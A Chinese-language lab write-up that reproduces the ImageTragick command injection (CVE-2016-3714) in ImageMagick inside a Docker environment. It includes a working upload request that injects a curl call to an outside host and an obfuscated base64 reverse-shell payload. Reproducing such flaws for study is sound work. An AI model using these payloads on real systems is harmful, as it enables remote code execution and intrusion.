

ImageMagick Imagetragick 命令注入漏洞（CVE-2016–3714）¶
ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。
在ImageMagick版本6.9.3-9之前，对文件名传递给委托的命令过滤不足，导致在转换多种文件格式时存在远程代码执行漏洞。这个漏洞也被叫做“imagetragick”。
参考链接：
- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs
漏洞环境¶
执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：
docker compose up -d
漏洞复现¶
访问http://your-ip:8080/即可查看到一个上传组件。
发送如下数据包：
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328
------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
可见，www.leavesongs.com:8889已经接收到http请求，说明curl命令执行成功：

反弹shell POC：
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context